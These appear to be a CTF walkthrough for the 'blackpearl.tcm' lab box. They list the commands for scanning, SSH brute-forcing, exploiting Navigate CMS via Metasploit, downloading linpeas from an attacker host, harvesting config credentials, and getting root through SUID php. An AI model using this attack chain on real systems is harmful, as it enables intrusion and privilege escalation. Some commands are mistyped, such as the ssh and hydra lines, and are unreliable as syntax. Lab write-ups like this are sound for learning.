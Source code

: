 
**nmap -A -p- 192.168.86.199**
   '''
   PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) 
    | dns-nsid:
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
    80/tcp open  http    nginx 1.14.2 ****
    |_http-title: Welcome to nginx!
    |_http-server-header: nginx/1.14.2
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    '''
---
**ffuf - No good**
---
**HTML**
    'http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>'
---
**Gobuster**
`gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"`
/secret               (Status: 200) [Size: 209]
    'DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
       <This message is here so that you don't waste more time directory busting this particular website.>'
---
**Hydra**
`hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199`
---
**DNSRECON**
`dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra` (-d is domain && any domain is required) #**Virtual Host Routing**
             '''
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
        [+] PTR blackpearl.tcm 127.0.0.1
        [+] 1 Records Found'
             '''
   
1. **sudo vi /etc/hosts**
        <ip>    blackpearl.tcm
        http://blackpearl.tcm
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    **Always google new environment**
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        `msfconsole use exploit/multi/http/navigate_cms_rce`
        `set domain - blackpearl.tcm : run`
                
 2. **meterpreter > shell:**
        'python -c 'import pty;pty.spawn("/bin/sh")''
            - pwd: ~/blackpearl.tcm/navigate 
            - ls -alth #This directory has higher permissions
        'wget http://<ip>/linpeas.sh linpeas.sh' # upload privecs
   
 3. **linpeas.sh:**
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + 'show databases; show tables; use navigate'
                'select * from nv_users; ::
                 alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677 #wasted time to break hash'
   
 4. **ssh alek@<ip> -p H4x0r**:: **Success**
            `find / -perm /6000 2</dev/null` ![GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
                #/php - GTFObins - click php -> SUID
            `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`  # **Success**
   '''
                        $ whoami::
                          root
                        $cd root/ && cat flag.txt ::
                            'Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box \ 
                             is mainly to teach about Virtual Host Routing which is used in a lot of CTF.'
   '''

                    

